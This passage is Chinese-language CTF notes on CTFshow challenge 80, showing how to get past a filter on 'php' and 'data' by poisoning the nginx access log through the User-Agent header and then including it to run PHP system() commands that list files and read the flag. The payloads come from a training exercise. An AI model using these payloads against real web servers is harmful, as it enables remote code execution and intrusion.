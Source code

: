 ![image-20240425143347290](D:\Infiltration\笔记\note\图片\image-20240425143347290.png)

查看源代码就可以看见

![image-20240425143102915](D:\Infiltration\笔记\note\图片\image-20240425143102915.png)





### CTFshow-80

过滤php和data

![image-20240425143723549](D:\Infiltration\笔记\note\图片\image-20240425143723549.png)

#### 解法：包含日志

```
file:////var/log/nginx/access.log
```

![image-20240425144353679](D:\Infiltration\笔记\note\图片\image-20240425144353679.png)



通过修改ua头的方式包含日志

```
<?php system("ls");?>
```



![image-20240425150441533](D:\Infiltration\笔记\note\图片\image-20240425150441533.png)



```
file:////var/log/nginx/access.log
```

![image-20240425150550290](D:\Infiltration\笔记\note\图片\image-20240425150550290.png)





```
<?php system('tac fl0g.php');?>
```

![image-20240425150732272](D:\Infiltration\笔记\note\图片\image-20240425150732272.png)

包含出flag

![image-20240425150816749](D:\Infiltration\笔记\note\图片\image-20240425150816749.png)



### CTFshow-81
